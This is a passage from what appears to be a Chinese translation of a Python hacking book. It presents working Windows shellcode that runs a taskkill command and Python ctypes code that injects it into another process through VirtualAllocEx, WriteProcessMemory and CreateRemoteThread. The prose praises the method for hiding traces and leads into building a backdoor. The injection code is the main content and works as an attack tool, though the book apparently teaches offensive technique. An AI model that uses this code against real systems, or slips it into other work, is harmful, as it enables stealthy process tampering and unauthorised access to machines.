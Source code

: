 ```py
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \ 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \ 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \ 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \ 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \ 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \ 
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \ 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \ 
    "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \ 
    "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00" 
padding = 4 - (len( pid_to_kill ))
replace_value = pid_to_kill + ( "\x00" * padding ) 
replace_string= "\x41" * 4
shellcode = shellcode.replace( replace_string, replace_value ) 
code_size = len(shellcode)
# Get a handle to the process we are injecting into.
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) ) 
if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid 
    sys.exit(0)
# Allocate some space for the shellcode
arg_address = kernel32.VirtualAllocEx(h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)
# Write out the shellcode 
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))
# Now we create the remote thread and point its entry routine
# to be head of our shellcode 
thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,None,0,arg_address,None, 0,byref(thread_id)):
    print "[*] Failed to inject process-killing shellcode. Exiting." 
    sys.exit(0)
print "[*] Remote thread created with a thread ID of: 0x%08x" % thread_id.value
print "[*] Process %s should not be running anymore!" % pid_to_kill 
```

上面的代码大部分看起来都很熟悉，但是还是有些有趣的技巧的。第一个，替换 shellcode 成我们想终止的 PID 的字符串。另一个值得关注的地方，就是调用 CreateRemoteThread()时， lpStartAddress 指向存放 shellcode 的地址，而 lpParameter 设置为 NULL。因为我们不需要传 入任何参数，我们只是想创建新线程执行 shellcdoe。

脚本调用参数如下：

```py
./code_injector.py <PID to inject> <PID to kill> 
```

传入合适的参数，线程创建成功的话，就会返回线程 ID。目标进程被终止后，你会看 到 cmd.exe 进程也结束了。

现在你知道了如何从另一个进程加载和执行 shellcdoe。现在不仅迁移 shell 方便了，隐 藏踪迹也更方便了，因为没有任何代码出现在硬盘上。接下来把我们所学的结合起来，创建 一个可定制的后门，当目标机器上线的时候，就能获取远程访问的权限。

我们能更坏吗？能！

# 7.2 邪恶的代码

